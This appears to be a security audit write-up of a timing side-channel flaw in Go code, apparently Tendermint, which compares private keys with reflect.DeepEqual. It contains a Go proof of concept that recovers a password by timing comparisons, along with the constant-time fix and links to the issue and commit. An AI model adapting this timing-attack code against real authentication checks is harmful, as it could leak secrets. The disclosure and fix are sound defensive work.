


# 1. [DC-10]Timing/Side Channel Attacks

## 1.1. Tag

`crypt`

`information leak`

## 1.2. Vulnerability description

Timing/side channel attacks

For Go language, if `byte`, `slice` contains the data used to verify the identity of user(like secret hash, `token`, etc), then `reflect.DeepEqual()`,`bytes.Equal()`, `bytes.Compare()`and `bytes.EqualFold()` should not be used. For these functions may lead to `timing attacks`. Therefore it's better to use `subtle.ConstantTimeCompare()` function or other safe functions within package `crypto/subtle`.

## 1.3. Vulnerability analysis

File path： `crypto/ed25519/ed25519.go`

```go
func (privKey PrivKeyEd25519) Equals(other crypto.PrivKey) bool {
    if otherEd, ok := other.(PrivKeyEd25519); ok {
        return reflect.DeepEqual(privKey[:], otherEd[:])
    } else {
        return false
    }
}
```

Since the run time of the function is related to the string content here,
due to the possibility of `timing attack` from `reflect.DeepEqual`, it's suggested to use `subtle.ConstantTimeCompare` instead. In that way, the risk of `timing attack` can be mitigated.

>`func ConstantTimeCompare(x, y []byte) int` ConstantTimeCompare returns 1 if the two slices, x and y, have equal contents and 0 otherwise. The time taken is a function of the length of the slices and is independent of the contents.

## 1.4. Reproduce

We just show the demo with the function.

```go
package main

import (
    "container/heap"
    "flag"
    "fmt"
    "log"
    "reflect"
    T "testing"
    "time"
)

var (
    password = flag.String("password", "secret", "The password to try and guess")
    letters  = []byte("abcdefghijklmnopqrstuvwxyz")
)

type TestRun struct {
    Time int64
    Byte byte
}

type Times []TestRun

func (t Times) Len() int           { return len(t) }
func (t Times) Less(i, j int) bool { return t[i].Time > t[j].Time }
func (t Times) Swap(i, j int)      { t[i], t[j] = t[j], t[i] }

func (t *Times) Push(v interface{}) {
    *t = append(*t, v.(TestRun))
}

func (t *Times) Pop() interface{} {
    a := *t
    n := len(a)
    v := a[n-1]
    *t = a[0 : n-1]
    return v
}

func Crack(password []byte) []byte {
    fmt.Println(password)
    n := len(password)
    guess := make([]byte, n)
    for index := range password {
        times := make(Times, 0)
        for _, letter := range letters {
            guess[index] = letter
            result := T.Benchmark(func(b *T.B) {
                for i := 0; i < b.N; i++ {
                    // use reflect.DeepEqual() here
                    reflect.DeepEqual(password,guess)
                }
            })
            heap.Push(&times, TestRun{
                Time: result.NsPerOp(),
                Byte: letter,
            })
            log.Printf("took %s (%d ns/op) to try %q for index %d", result.T, result.NsPerOp(), letter, index)
        }
        tr := heap.Pop(&times).(TestRun)
        guess[index] = tr.Byte
        log.Printf("best guess is %q for index %d", tr.Byte, index)
        log.Printf("guess is now: %s", guess)
    }
    return guess
}


func main() {
    flag.Parse()
    var guess []byte
    pw := []byte(*password)
    start := time.Now()
    Crack(pw)
    end := time.Now()
    dur := end.Sub(start)
    log.Printf("password guess after %s is: %s", dur, guess)
}

```

Execute `go run timing_attack.go`



We can get sensitive information `secret` by `timing attack`

## 1.5. Fix

Replace `reflect.DeepEqual` as `subtle.ConstantTimeCompare`。

You can check related Fix  : [Fix](https://github.com/tendermint/tendermint/commit/3df2ca128d12a20c63fb05fd20d37132b7576760)

(PS: The position of vulnerable code is different from the issue)


## 1.6. Reference

You can check the related issue : [Issue](https://github.com/tendermint/tendermint/issues/2049)

Vulnerable code: [Link](https://github.com/tendermint/tendermint/blob/v0.22.5/rpc/core/blocks.go)